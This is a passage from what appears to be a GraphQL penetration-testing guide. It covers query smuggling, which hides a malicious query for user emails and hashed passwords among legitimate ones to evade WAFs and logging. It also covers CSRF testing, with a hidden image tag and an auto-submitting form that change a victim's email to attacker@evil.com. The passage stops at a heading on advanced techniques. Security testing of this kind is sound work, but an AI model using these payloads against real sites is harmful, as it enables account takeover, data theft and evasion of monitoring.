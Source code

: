 3. **Query smuggling**:
   - Hide malicious operations among legitimate ones
   - Use this to bypass WAF or logging mechanisms
   
   Example:
   ```
   POST /graphql HTTP/1.1
   Host: target.com
   Content-Type: application/json
   
   [
     {"query": "query { publicPosts { id title } }"}, # Legitimate operation
     {"query": "query { userEmails { email role hashedPassword } }"}, # Malicious operation
     {"query": "query { publicEvents { id date } }"} # Legitimate operation
   ]
   ```

### 8. CSRF Testing

GraphQL endpoints are often vulnerable to CSRF:

1. **Identify state-changing mutations**:
   - Look for operations that update user data
   - Focus on high-impact operations like:
     - Password/email changes
     - Account settings
     - Financial transactions
     - Data deletion

2. **Test for GET-based GraphQL support**:
   - Some implementations support queries via GET params
   - This makes CSRF trivial
   
   Example:
   ```
   <img src="https://target.com/graphql?query=mutation{changeEmail(email:%22attacker@evil.com%22){success}}" style="display:none">
   ```

3. **Test for missing CSRF protections**:
   - Check if the API relies solely on cookies for authentication
   - Verify if CSRF tokens are validated for GraphQL operations
   
   Example PoC:
   ```html
   <html>
     <body onload="document.forms[0].submit()">
       <form action="https://target.com/graphql" method="POST" enctype="text/plain">
         <input name='{"query":"mutation{changeEmail(email:\"attacker@evil.com\"){success}}"}' value='abc'>
       </form>
     </body>
   </html>
   ```

### 9. Advanced Techniques
